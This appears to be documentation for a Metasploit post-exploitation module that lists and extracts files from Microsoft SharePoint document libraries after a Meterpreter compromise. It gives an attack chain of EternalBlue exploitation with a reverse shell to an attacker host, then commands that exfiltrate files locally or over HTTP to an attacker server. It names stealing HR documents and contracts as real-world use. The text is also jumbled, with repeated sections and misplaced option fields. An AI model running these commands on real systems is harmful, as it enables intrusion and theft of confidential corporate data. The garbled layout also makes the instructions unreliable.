## Vulnerable Application

This module targets Microsoft SharePoint Server installations on Windows systems. It requires a compromised Windows session (e.g., via Meterpreter) with access to SharePoint’s .NET assemblies (`Microsoft.SharePoint.dll`), which are included in a standard SharePoint installation.

## SharePoint Document Library Enumerator and Extractor

This document provides detailed instructions for setting up, verifying, and using the `post/windows/gather/sharepoint_document_extractor` module in Metasploit. It’s designed to help someone troubleshoot the module if it stops functioning with specific links and examples for clarity.

This module targets Microsoft SharePoint Server installations on Windows systems. It requires a compromised Windows session (e.g., via Meterpreter) with access to SharePoint’s .NET assemblies (`Microsoft.SharePoint.dll`), which are included in a standard SharePoint installation.

### Setup Instructions
- **Supported Versions:** Tested on SharePoint Server 2016 and 2019. Future versions (e.g., SharePoint Server Subscription Edition) should work if the .NET API remains compatible.
- **Operating System:** Windows Server (e.g., 2016, 2019, 2022).
- **Installation:**
  1. **Obtain SharePoint Server:**
     - As of 2025, trials are available from Microsoft’s Evaluation Center (https://www.microsoft.com/en-us/evalcenter/). If links break, check the Wayback Machine (https://archive.org).
     - Example: SharePoint Server 2016 trial ISO (SHA256: check Microsoft archives if available).
  2. **Install on a Windows Server VM:**
     - Use VirtualBox or VMware with 8GB RAM and 100GB disk recommended.
     - Follow Microsoft’s setup guide: https://learn.microsoft.com/en-us/sharepoint/install/install-sharepoint-server (or archived versions if unavailable).
     - Default installation includes required .NET assemblies; no special configuration beyond site setup is needed.
  3. **Configure a SharePoint Site:**
     - Create a site (e.g., `http://<server_ip>`) via SharePoint Central Administration.
     - Add a document library named “Documents” (default) and upload test files (e.g., `test.pdf`, `doc1.docx`, each <10MB).
## Verification Steps

1. **Install SharePoint:**

1. **Install SharePoint:**
   - Set up SharePoint Server on a Windows VM as described above.
   - Upload test files (e.g., `test.pdf`, `doc1.docx`) to the “Documents” library.
2. **Start `msfconsole`:**
   
   msfconsole
Load the Module:

use post/windows/gather/sharepoint_document_extractor
Set Options:

set SESSION <session_id>  # Replace with your session ID from 'sessions -l'
set SITE_URL http://<target_ip>
set LIBRARY Documents
Run the Module:

run
Expected Result: Files are extracted to loot (Meterpreter) or sent via HTTP:

[*] Generating SharePoint document extractor payload...
[*] Executing payload on target session 1...
[*] Info: Enumerating:Documents:2 items
[+] Saved test.pdf to /root/.msf4/loot/20250317_123456_test.pdf
## Options

SITE_URL
<!-- ## Options -->
SITE_URL
Description: The full URL of the SharePoint site to target (e.g., http://192.168.1.100).
Usage: Must match the target’s SharePoint site exactly, including port if non-standard (e.g., http://192.168.1.100:8080). Use http:// (not https://) unless SSL is configured and accessible from the compromised session.
Default: http://sharepoint.local (update based on your test environment).
LIBRARY
Description: The name of the SharePoint document library to extract files from (e.g., Documents).
Usage: Must match an existing library on the target site. Case-sensitive in some SharePoint versions—verify via the SharePoint web interface.
Default: Documents (common default library name).
EXFIL_METHOD
Description: Specifies the method to exfiltrate files: METERPRETER (stores files as loot) or HTTP (sends files to an attacker-controlled server).
Usage: Set to METERPRETER for local loot storage or HTTP with EXFIL_HOST and EXFIL_PORT for remote transfer.
Default: METERPRETER.
EXFIL_HOST
Description: The IP or hostname of the attacker’s server for HTTP exfiltration (e.g., 192.168.1.101).
Usage: Required if EXFIL_METHOD is HTTP. Must be reachable from the target (e.g., run python3 -m http.server 8080 on Kali).
Default: Empty (not set).
EXFIL_PORT
Description: The port on the EXFIL_HOST for HTTP exfiltration (e.g., 8080).
Usage: Match the port of your HTTP server. Ensure no firewall blocks it on the target network.
Default: 8080.
MAX_SIZE
## Scenarios

SharePoint 2016 on Windows Server 2016 with Meterpreter Exfiltration
Default: 10485760 (10MB).
<!-- ## Scenarios -->
SharePoint 2016 on Windows Server 2016 with Meterpreter Exfiltration
This scenario simulates extracting sensitive documents from a SharePoint server in a corporate network after gaining a Meterpreter session.

Steps:
Compromise the Target:
Use an exploit to gain a Meterpreter session:

msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.101
set LPORT 4444
exploit
Confirm session: sessions -l (e.g., ID 1).
Load and Configure the Module:

use post/windows/gather/sharepoint_document_extractor
set SESSION 1
set SITE_URL http://192.168.1.100
set LIBRARY Documents
Run the Module:

run

Output:

[*] Generating SharePoint document extractor payload...
[*] Executing payload on target session 1...
[*] Info: Enumerating:Documents:3 items
[+] Saved report.pdf to /root/.msf4/loot/20250317_123456_report.pdf
Real-World Use: Extracting HR documents or contracts from a corporate SharePoint instance post-compromise.
[*] Post module execution completed
Notes:
Troubleshooting: If files don’t extract, verify SITE_URL is reachable from the target (execute -H -i -f cmd.exe then ping 192.168.1.100). Check Microsoft.SharePoint.dll in C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\<version>\ISAPI\.
Real-World Use: Extracting HR documents or contracts from a corporate SharePoint instance post-compromise.